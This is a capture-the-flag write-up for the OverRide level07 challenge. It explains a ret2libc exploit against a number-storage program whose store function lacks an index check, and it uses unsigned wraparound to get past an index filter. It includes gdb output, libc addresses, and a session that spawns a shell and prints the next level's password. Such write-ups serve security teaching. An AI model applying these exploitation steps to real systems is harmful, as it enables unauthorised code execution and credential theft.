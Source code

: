 # Context

The program is a number storage service. We can store numbers, read the stored numbers, or quit. Looking at the [source code](../source.c) in more detail, we notice that there is no check of the index where we save our numbers in the store_number() function. Therefore, we can write almost anywhere we want on the stack. We'll be able to exploit that, but we'll have to deal with some limitations: 

* First of all, concerning the registration of numbers in the dataset:
    - numbers are stored at `index * 4`
    - `index % 3` must not be equal to 0
    - `number >> 24` must not be equal to 183 

* The program has been compiled with the `-fstack-protector` flag, meaning that the return address of the program is protected with a [stack canary](https://en.wikipedia.org/wiki/Buffer_overflow_protection#Canaries). 

* At the beginning of the program, `av` and `env` are cleared and therefore cannot be used to store shellcode in memory. 

# lead

we are going to exploit the flaw in the store_number() function. Since we can write on the stack with the offset of our choice, we can change the address stored in EIP without overwriting the canary stack.

We could store a shellcode on the stack using the store_number() function, but it would be a bit tedious. Instead, we'll do a ret2libc attack, as we did for the level04.

# Exploit

1. First of all, let's find the address of the buffer. We know it is located at 0x24(%esp) in the main() function. Using gdb, we get the address of ESP (0xffffd520) and then calculate the effective address of the buffer: 0xffffd544.

2. We must then find the address of EIP in order to calculate its offset from the buffer. To do so, we just need to set a breakpoint anywhere in the main() function using gdb, and enter the command `ìnfo frame`. It is the address contained in EIP in the saved registers section that we want: 0xffffd70c. We just have to subtract this address from the buffer address to find the offset. Since we record unsigned int, we have to divide this value by 4 to find the right index. So we want to write from index 114.
```
(gdb) info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x8048723 in main; saved eip 0xf7e45513
 Arglist at unknown address.
 Locals at unknown address, Previous frame's sp is 0xffffd710
 Saved registers:
  eip at 0xffffd70c
(gdb) p 0xffffd70c - 0xffffd544
$1 = 456
```

3. Here's a little issue: 114 is divisible by 3, so the program will prevent us from writing there. But fortunately for us, when an unsigned int overflows (values over 4294967295), it "wraps around". So UINT_MAX + 1 = 0, UINT_MAX + 2 = 1...
`(4294967295 + 1 + 456) / 4 = 1073741938` is not divisible by three, but will write exactly where we want to.

4. Finally, we can find the memory addresses of the system() and exit() functions, as well as the string "/bin/sh", as we did in level04:
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
```

5. We can now record the decimal value of the system() address at index 1073741938, then the one for exit() at index 115 and finally the one for "/bin/sh" at index 116. Once this is done, a shell will be launched when we try to exit the program:
```
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115   
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

We can now reach the next level with the command `su level08` and fill in the flag found as a password.